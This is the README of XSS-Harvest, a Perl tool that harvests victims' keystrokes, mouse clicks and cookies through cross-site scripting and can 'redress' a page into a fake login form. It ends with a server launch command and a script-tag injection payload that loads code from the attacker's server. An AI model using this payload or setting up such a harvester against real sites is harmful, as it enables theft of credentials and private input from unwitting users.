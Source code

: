 # XSS-Harvest
0.2.x
by Geoff Jones - 0x90.co.uk
http://www.0x90.co.uk/2011/07/harvesting-cross-site-scripting-xss.html

## About
XSS-Harvest is multi-threaded pre-forking web server written in Perl, and requires no dependencies other than a couple of common Perl modules; you do not need a web server or database to use this tool. Before going into the detail, I'll list the high level functionality below:

* Infection script adds relevant event listeners (keystrokes, onload() and mouse clicks) to the vulnerable page and sets up communication with the XSS-Harvest server.
* Any key entered will be sent covertly to the server.
* Any mouse click performed will be analysed and the data covertly sent to the server.
* Optionally 'redress' the vulnerable page to display a different page on the same subdomain - e.g. a login form.
* If redressing the victim's browser, allow subsequently loaded pages to be also 'infected' - assuming they don't break the same-origin policy (i.e. they're on the same subdomain).
* Keeps track of victims for the lifetime of the XSS-Harvest cookie (future visits are recognised as a returning victim).
* Each victim has a separate history file containing all events, cookies and keystrokes. 
* Server console displays real time data received (due to multi-threaded nature, keystrokes are displayed as '.' characters to avoid confusion).
* Tested in IE6-9 (reflected XSS protection in IE9 will limit exploitation to stored XSS only in most cases), FF5, Chrome and various mobile browsers (Safari and Android). Please let me know your success with other browsers.
* Overcomes browser oddities, such as Internet Explorer throttling requests to the same URL when exfiltrating keystrokes.

## Dependencies
Requires the following dependencies:
HTTP::Server::Simple::CGI, Digest::MD5, Time::Local, Getopt::Std, Net::Server::PreFork

### Ubuntu/Debian install

    sudo apt-get install libhttp-server-simple-perl libdigest-md5-file-perl libtime-local-perl libnet-server-perl

### OSX Install 

    sudo cpan install HTTP::Server::Simple::CGI
    sudo cpan install Digest::MD5
    sudo cpan install Digest::Time::Local
    sudo cpan install Getopt:Std
    sudo cpan install Net::Server::Prefork

## Usage
Start server (with redress:)

* ./xss-harvest.pl -l -r http://vulnerablepage.local/login.html

XSS:

* \<script src="http://\<serverip\>:\<serverport\>/i"\>\</script\>
